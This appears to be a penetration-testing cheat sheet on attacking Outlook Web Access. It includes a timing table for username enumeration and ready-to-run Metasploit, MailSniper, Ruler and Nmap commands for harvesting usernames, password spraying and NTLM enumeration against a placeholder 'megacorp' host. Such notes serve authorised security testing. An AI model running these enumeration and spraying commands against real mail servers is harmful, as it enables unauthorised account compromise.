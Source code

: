 ```yaml
---
description: Outlook Web Access
---
```


# OWA




## Enumerate Users

* [https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/)
* [https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen](https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen)

| Authentication Request                   | Kerberos Process                                     | Response Time |
|------------------------------------------|------------------------------------------------------|---------------|
| Non-existing realm                       | KDC searches for realm                               | 2-3 seconds   |
| Realm exists but username does not exist | Pre-authentication ticket created to verify username | 5-60 seconds  |
| Realm and username exists                | Pre-authentication ticket created to verify password | < 2 seconds   |

> "Responses in different environments may have different response times but the pattern in the timing response behavior still exist." ([ref](http://h.foofus.net/?p=784))



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set RHOST mx.megacorp.local
msf > set USER_FILE owa-users.txt
msf > set PASSWORD dummyPassword
msf > set THREADS 15
msf > run
```



### MailSniper

- [https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)

```
PS > Invoke-UsernameHarvestOWA -ExchHostname mx.megacorp.com -Domain MEGACORP -UserList .\owa-users.txt -Threads 25 -OutFile owa-valid-users.txt
```




## Password Spray



### Ruler

* [https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials)

Autodiscover URL implicit:

```
$ ./ruler -k -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-blood.out
```

Autodiscover URL explicit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-all.out
```

Notes:

* In users.txt there's only "username" on a line, not "DOMAIN\username".
* Errors like `ERROR: 04:27:43 brute.go:193: An error occured in connection - Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: net/http: request canceled` do **not** affect the current password probe.




## Enumerate NTLM

* [https://github.com/nyxgeek/ntlmscan](https://github.com/nyxgeek/ntlmscan)
* [https://gist.github.com/aseering/829a2270b72345a1dc42](https://gist.github.com/aseering/829a2270b72345a1dc42)



### Nmap

```
$ sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 mx.megacorp.com
```



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set AUTH_TIME false
msf > set RHOST mx.megacorp.local
msf > set USERNAME dummyUser
msf > set PASSWORD dummyPassword
msf > run
```



### MailSniper

- [https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)

```
PS > Invoke-DomainHarvestOWA -ExchHostname mx.megacorp.com
```
